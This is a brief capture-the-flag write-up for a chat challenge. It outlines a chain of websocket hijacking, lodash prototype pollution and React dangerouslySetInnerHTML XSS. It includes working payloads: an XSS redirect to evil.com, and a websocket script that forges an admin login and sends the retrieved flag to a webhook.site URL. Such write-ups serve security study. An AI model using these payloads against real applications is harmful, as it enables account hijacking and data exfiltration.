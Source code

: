 # Chatting

exploit approach:
+ websocket hijacking
+ prototype pollution
+ dangerous html xss
+ special characters filter bypass
+ backend source? & react sourcemap

### Details

websocket hijacking
+ flag bot
+ only admin can talk to the flag bot
+ forge admin to let the flag bot send a flag

xss
+ dangerous html
+ template render
+ match `>`, tag cannot be enclosed


prototype pollution
+ lodash

### Exp

prototype pollution payload:
```js
content: {
    type: 'tpl',
    data: {
        tpl: '<h3>{{b}}</h3>',
        ctx: '{"a":123, "b":123, "__proto__":{"allowImage":true}}'
    }
}
```

xss payload:
```js
content: {
    type: 'image',
    data: {
        src: 'https://i.picsum.photos/id/220/200/200.jpg?hmac=1eed0JUIOlpc-iGslem_jB1FORVXUdRtOmgpHxDDKZQ',
        attrs: {
            wow: 1,
            dangerouslySetInnerHTML: {
                __html: "<img onerror='location.href=`http://evil.com`' src=1>"
            }
        }
    }
}
```

websocket:

```javascript
const webhook = 'https://webhook.site/35fe2e36-7d32-4001-a5a4-497016b9cdc6'
const ws = new WebSocket('ws://localhost:8081')
ws.onopen = () => {
    fetch(webhook, { method: "POST", body: "open" })
}
ws.onmessage = (e) => {
    const msg = JSON.parse(e.data)
    if(msg.api == 'login'){
        ws.send(JSON.stringify({ 
            api: "login", 
            username: "admin"
        }))
        ws.send(JSON.stringify({
            api: "getflag",
        }))
    }else if(msg.api == 'flag'){
        fetch(webhook, {
            method: 'post',
            body: msg.flag
        })
    }
}
```
